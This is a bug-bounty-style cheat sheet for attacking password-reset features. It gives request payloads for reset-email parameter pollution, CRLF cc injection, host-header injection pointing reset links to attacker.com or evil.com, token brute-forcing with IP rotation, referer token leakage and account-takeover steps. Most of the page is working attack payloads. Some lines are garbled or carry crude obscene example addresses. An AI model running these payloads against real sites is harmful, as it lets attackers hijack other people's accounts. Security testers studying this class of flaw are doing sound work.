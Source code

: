 ```yaml
---
title: Forgot Password Cheat Sheet
description: webvun,hacking
author: samidunimsara
date: 2023-09-18 11:33:00 +0800
categories: [hackingweb, web]
tags: [web]

---
```


# Password Reset Functionalities

- 1.) **Include your mail as a second parameter (you 
      might receive the reset link):**
    
    ```bash
    POST /reset
    email=victim@tld.xyz&email=hacker@tld.xyz
    ```
    
- 2) Brute force reset token if it is numeric. You can use IP Rotator on Burpsuite
    
    ```bash
    to bypass rate limit in case it's IP based :
    
    POST /reset
    email=victim@tld.xyz&code=$BRUTE$
    ```
    
- 3) Try to use your reset token on target's account
    
    ```bash
    POST /reset
    email=victim@tld.xyz&code=$YOUR-TOKEN$
    ```
    
- 4) Host header injection; change website.com to hacker.com (victim might receive the reset link with)
    
    ```bash
    POST /resetHost: hacker.com[ … … . ].
    ```
    
- Try to figure out how the tokens are generated. Exemples can be
    
    ```bash
    -Generated based on TimeStamp-
    -Generated based on the ID of the user
    -Generated based on the email of the user
    ```
    
- ) Try
    
    ```bash
    .user@email.com&bcc:attacker@email.com 
    
    .user@email.com,attacker@email.com.
    
    .victimspussy@ymail.com:attackersdick@ymail.com
    
    .{"email":["victim@gmail.com","attacker@gmail.com"]}
    
    .email="victim@mail.tld%0a%0dcc:attacker@mail.tld"
    
    {"email":["victim12345@gmail.com","attacker12345@gmail.com"    ]}
    
    POST /reset
    email=victim@mail.com%0a%0dcc:hacker@mail.com
    
    no gmail.com No domain:email=victim   
    
    {"email": ["victim@xyz.tld","hacker@xyz.tld"]}
    
    Carbon copy:
    email=victim@xyz.tld%0a%0dcc:hacker@xyz.tld
    
    ```
    
- When requesting a new password reset link try to inject some html tags in the host header,
    
    ```bash
    Example:-Host: http://redacted.com?><a href=http://evil.com
    ```
    
- Also look into response body, sometimes passwd reset token leaks there.
- In JSON array
    
    ```bash
    {"email":["victim@mail.tld","atracker@mail.tld"]}
    ```
    
- reset password so that you get a reset OTP in your email
    - Don't use it.
    - Sign into your account and change your email address.
    - Once it's changed, try using the old OTP.
    - if the link still works then users can't rescue their account if their email is compromised.
- x-forwarded-host: {{7*7}} and X-Forwarded-For: yu will receive 49 in yur email if the application was infected ;)
- ATO
    
    
    ```bash
    1.Go to reset password
    2.Enter your Email and intercept request
    3.change Host+Referrer+originWith your server eg:burp collob..*
    4.Victim will receive  yourserver/token=$
    5.When He Click on Link you will got token
    
    ```
    
- Another ATO
    
    ```bash
    1.Generated reset password link,
    2.Gave password, and intercepted the request.
    3.Change my email with victim email and victim pass got changed
    ```
    
- Leakage of the password reset token in the referer header:
    
    ```bash
     1.In the password reset page after:
     2.Click on any social media handle or any 3rd party sites link & intercept the request
     3.If the reset token is leaked in refer header, Just report it! H1 report 751581 ``
    ```
    
    [https://github.com/imran-parray/Web-Sec-CheatSheet/blob/master/password_reset.md](https://github.com/imran-parray/Web-Sec-CheatSheet/blob/master/password_reset.md)
    
- Password Reset Token Leakage
    
    ```bash
    
    Steps:    
    01.Send a password reset request 
    02.copy your reset page link from mail  and paste in another tab and make burp intercept on.
    03.after clinck link open facebook twiterr .random web site  
    https://www.youtube.com/watch?v=X3YxJFiTa6c&t=2s
    04. search reset link in puep historry
    05.if you find similiar token that is in reset link with other domain its vunarable
    ```
    
    - It was just simple one by response manipulation. Change the body from "false" to "true
- Host Header 💉
    
    ```bash
    1.Go to password reset funtion.
    2.Enter email and intercept the request and change like this    Host:http://target.com    Host:burp collbr    Host: http://attacker.com/www.target.com    Host: http://attacker.com&www.target.com
    4.if you found http://attacker.com in reset link.. Report it
    ```
    
- Password reset link not expiring
    - After reset password using reset link try another time using same link
- Dos via enter long password
    
    ```bash
    1.enter long password 1000 caracter if response 500 its dos
    ```
  
